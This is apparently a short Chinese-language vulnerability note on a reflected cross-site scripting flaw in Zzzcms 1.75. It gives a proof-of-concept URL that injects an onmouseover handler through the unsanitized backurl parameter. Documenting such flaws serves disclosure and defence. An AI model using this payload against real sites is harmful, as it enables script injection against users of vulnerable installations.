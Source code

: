 Zzzcms 1.75 xss漏洞
===================

一、漏洞简介
------------

二、漏洞影响
------------

Zzzcms 1.75

三、复现过程
------------

    http://www.0-sec.org/plugins/template/login.php?backurl=1%20onmouseover%3dalert(9516)%20y%3d

该onmouseover事件在移动到登录注册时会触发

![](resource/Zzzcms1.75xss漏洞/media/rId24.png)

对传入的backurl并没有做任何防护

image

